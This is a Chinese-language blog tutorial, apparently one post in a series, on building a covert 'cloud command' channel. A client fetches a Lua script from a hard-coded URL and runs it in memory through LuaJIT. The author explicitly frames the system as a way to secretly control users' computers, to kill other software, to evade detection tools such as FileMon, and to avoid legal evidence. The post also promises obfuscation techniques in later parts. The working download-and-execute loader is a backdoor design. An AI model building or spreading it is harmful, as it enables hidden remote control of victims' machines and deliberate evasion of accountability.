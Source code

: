 &emsp;&emsp;首先我们思考下“云指令”的优点：  
&emsp;&emsp; 1.  **一次性执行，在客户端几乎无法得知其被执行的证据**。在CS体系结构中，如果我们要完成某个业务需求，往往要修改二进制文件，并发布到客户端。这样，我们在客户端的副本将有机会去执行相关逻辑。如果我们要做些坏事，比如暗杀某个软件，我们要是在客户端写死这个逻辑，很容易被逆向从而被举证。这将面临法律风险。如果我们服务端向客户端发一些指令（二进制流），这些指令会被执行，从而做些操作，将很难会被发现。  
&emsp;&emsp;2. **节约流量**。有人可能会想，那为什么不从服务端直接拉一个Exe去做这样的操作呢？如果去拉取Exe，将很容易被FileMon这类软件发现，从而让举证者轻易拿到我们Exe文件并终止我们“毁尸灭迹”的操作。这就是为什么不发一些小的Exe去执行指令的原因。还有一个原因便是文件大小，Exe文件一般来说会比我们编写的Lua脚本要大。  

&emsp;&emsp;我想第一点就已经非常吸引你了，试想，如果有了此功能，那么我们就可以轻易操控用户的电脑了。
&emsp;&emsp;下面我们看下如何实现这样的一个“云指令”系统。  
&emsp;&emsp;1. 编译生成一个Luajit的Lib文件  
&emsp;&emsp;紧接前一篇文章。我们新建一个名字叫LuajitLib的工程。它的目的和LualibProject工程相似——生成一个lib文件。但是我们这次要生成一个我们已知导出函数的一个lib，该函数将完成执行指令的操作。  
&emsp;&emsp;和LualibProject工程一样，我们要链接Lua工程生成的obj文件。在Librarian->General->Additional Dependencies中设置  
```bash
$(TargetDir)libobj\lib_*.obj  
$(TargetDir)ljobj\lj_*.obj  
$(TargetDir)lj_vm.obj
```
&emsp;&emsp;在Librarian->General->Export Named Functions中设置导出函数名**ExcuteLuaString**
&emsp;&emsp;在C\C++->General->Additional Include Directories中设置我们要引入的头文件目录  
```bash
"$(SolutionDir)Header";"$(SolutionDir)OtherHeader"  
```
&emsp;&emsp;其他和LualibProject一样。我们给LuajitLib工程新建一个头文件  
```c++
#pragma once  
  
#ifdef __cplusplus  
#define EXTERN_C extern "C"  
#else  
#define EXTERN_C extern  
#endif   
  
EXTERN_C void ExcuteLuaString( const char* lpBuffer, unsigned long ulBufferSize );  
```
&emsp;&emsp;其中第一个参数是我们传入指令的地址，第二个参数是指令的长度。  

```c++
#include "ExcuteLua.h"  
  
#include "lualib.h"  
#include "lauxlib.h"  
  
void ExcuteLuaString( const char* lpBuffer, unsigned long ulBufferSize )  
{  
    int nStatus = 0;  
    lua_State* L = luaL_newstate();  
    luaL_openlibs(L);  
    nStatus = luaL_loadbufferx( L, lpBuffer, ulBufferSize, NULL, NULL );  
    nStatus = lua_pcall(L, 0, 0, 0);  
    lua_close(L);  
}  
```

&emsp;&emsp;2. 编一个简易的客户端。  
&emsp;&emsp;为了尽量简易，我们就新建一个名字为LuaConsoleTest的Console程序。该工程将引用1中生成的lib文件。  
&emsp;&emsp;同时，该工程提供一个下载工程，即模拟从服务端下发数据。  

```c++
#define MAXBLOCKSIZE 1024  
BOOL GetCloudCmd( const std::string& strUrl, std::string& strCmd )  
{  
    BOOL bSuc = FALSE;  
    do {  
        HINTERNET hSession = InternetOpenA("IE/1.0 ", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);  
        if ( NULL == hSession ) {  
            break;  
        }  
  
        HINTERNET handle = InternetOpenUrlA(hSession, strUrl.c_str(), NULL,  0 , INTERNET_FLAG_DONT_CACHE, 0);  
        if ( NULL == handle ) {  
            break;  
        }  
  
        byte Temp[MAXBLOCKSIZE] = {0};  
        ULONG Number = 1 ;  
  
        while (Number >  0 ) {  
            InternetReadFile(handle, Temp, MAXBLOCKSIZE - 1,& Number );  
            strCmd.append((char*)Temp);  
            memset(Temp,0, MAXBLOCKSIZE);  
        }   
  
        InternetCloseHandle(handle);  
        handle  =  NULL;  
  
        InternetCloseHandle(hSession);  
        hSession  =  NULL;  
  
        bSuc = TRUE;  
    } while (0);  
    return bSuc;  
      
}
```
&emsp;&emsp;在主程序中，我将执行获取“云端指令”和执行指令的操作。

```c++
int _tmain(int argc, _TCHAR* argv[])  
{  
    std::string strUrl = "http://dl5.csdn.net/fd.php?i=341748182061456&s=95f3ecf9a259c4f38fcf60493a699287" ;  
    std::string strCmd = "";  
    if ( GetCloudCmd(strUrl, strCmd) )  
    {  
        ExcuteLuaString(strCmd.c_str(), strCmd.length());  
    }  
    return 0;  
}  
```
&emsp;&emsp;该段中URL是我写死的一个地址。这是为了简易，如果想搞的复杂，可以考虑让服务器下发地址或者直接下发命令。
&emsp;&emsp;我在服务端保存的是一个简易的Lua脚本。**该脚本使用了ffi库，即让我们可以像使用C语言一样写Lua脚本，这个也是令人非常激动的一点。**  
```c++
local ffi = require "ffi"   
ffi.cdef[[unsigned int GetTickCount()]]   
print(ffi.C.GetTickCount())  
```
&emsp;&emsp;这样，客户端就执行了”云指令“——打印出TickCount。  
![](_v_images/_1521530601_29076.png)  
&emsp;&emsp;可能有人会提出更高的要求，比如这个Lua的内容太长了！其实它真的不长，但是的确我们可以让它短点，而且让这样的函数名不再明显，增加破解者阅读的难度。我会在之后讲解如何去封转自己的Lua库，如何编写更“难以阅读”，更简短的“云指令”。